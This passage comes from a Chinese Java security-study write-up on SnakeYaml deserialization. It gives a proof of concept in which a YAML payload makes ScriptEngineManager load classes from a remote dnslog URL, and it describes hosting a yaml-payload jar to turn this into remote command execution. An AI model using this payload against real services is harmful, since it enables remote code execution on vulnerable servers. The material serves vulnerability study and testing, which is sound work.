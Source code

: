 ```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/1 6:35 下午
 */
public class ScriptEngineManagerExploit {

    public static void main(String[] args) {

        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://hfme12.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

可以看到下图中成功获取`dnslog`请求, 但是只是探测是否进行了反序列化, 如果需要利用的话还需要构造命令执行的代码.

<div align=center><img src="./Java安全学习—SnakeYaml反序列化漏洞/8.png"></div>

对于上文的命令执行的脚本, 可以参考[yaml-payload.jar](https://github.com/artsploit/yaml-payload/), 其实现了`ScriptEngineFactory`接口, 然后在静态代码块处填写需要执行的命令, 将项目打包后挂载到`web`端, 使用`payload`进行反序列化后请求到该位置, 实现`java.net.URLClassLoader`调用远程的类进行执行命令即可.

<div align=center><img src="./Java安全学习—SnakeYaml反序列化漏洞/9.png"></div>
